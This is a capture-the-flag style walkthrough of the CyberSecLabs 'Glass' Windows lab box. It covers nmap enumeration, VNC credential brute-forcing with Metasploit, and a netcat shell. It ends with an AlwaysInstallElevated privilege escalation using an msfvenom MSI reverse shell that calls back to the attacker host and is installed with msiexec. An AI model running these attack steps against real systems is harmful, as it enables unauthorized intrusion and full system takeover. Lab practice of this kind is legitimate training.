






# CyberSecLabs : Glass : 172.31.1.25

Nmap Scan

```zsh
nmap -sC -sV -p 135,139,445,3389,5800,5900,5985,47001,49664,49665,49666,49667,49668,49671,49676 172.31.1.25 -v
PORT      STATE  SERVICE       VERSION                                                                                                                                      
135/tcp   open   msrpc         Microsoft Windows RPC                                                                                                                        
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                
445/tcp   open   microsoft-ds?
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GLASS
|   NetBIOS_Domain_Name: GLASS
|   NetBIOS_Computer_Name: GLASS
|   DNS_Domain_Name: Glass
|   DNS_Computer_Name: Glass
|   Product_Version: 10.0.17763
|_  System_Time: 2020-07-24T07:47:35+00:00
| ssl-cert: Subject: commonName=Glass
| Issuer: commonName=Glass
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-22T18:19:53
| Not valid after:  2021-01-21T18:19:53
| MD5:   7aea 3565 7106 5b2d 2b48 ac80 eaae bf2c
|_SHA-1: c06b 3f70 5e3f 2546 74c7 0365 8844 f105 ca3e a628
|_ssl-date: 2020-07-24T07:47:46+00:00; +1s from scanner time.
5800/tcp  open   vnc-http      TightVNC (user: glass; VNC TCP port: 5900)
| http-methods: 
|_  Supported Methods: GET
|_http-title: TightVNC desktop [glass]
5900/tcp  open   vnc           VNC (protocol 3.8)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_vnc-info: ERROR: Script execution failed (use -d to debug)
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49671/tcp closed unknown
49676/tcp open   msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: GLASS, NetBIOS user: <unknown>, NetBIOS MAC: 02:f2:64:30:d9:62 (unknown)
| Names:
|   GLASS<00>            Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  GLASS<20>            Flags: <unique><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time:                                                                                                                                                                
|   date: 2020-07-24T07:47:35
|_  start_date: N/A
```

On visitng 5800 port we see it is a tight vnc http. Also shows us a username 'glass'



```zsh
msfconsole
use auxiliary/scanner/vnc/vnc_login
```
Set the options correctly like this and run :



Now login with the creds.

```zsh
vncviewer 172.31.1.25:5900
```



Upload nc.exe and execute it via terminal as shown above and you will have a shell.



Now upload and run winpeas and you will see ```AlwaysInstallElevated``` is set to 1.

The catch is that two Registry settings must be enabled for this to workThe “AlwaysInstallElevated” value must be set to 1 for both the localmachine and current user.

Verify Manually:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```



Now make .msi file for a x64 bit machine as that is our target (Windows10x64 bit)

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.40 LPORT=80 -f msi -o reverse.msi
```
Now upload this , start a shell , run it with this :
```cmd
msiexec /quiet /qn /i reverse.msi
```

You will have a system shell

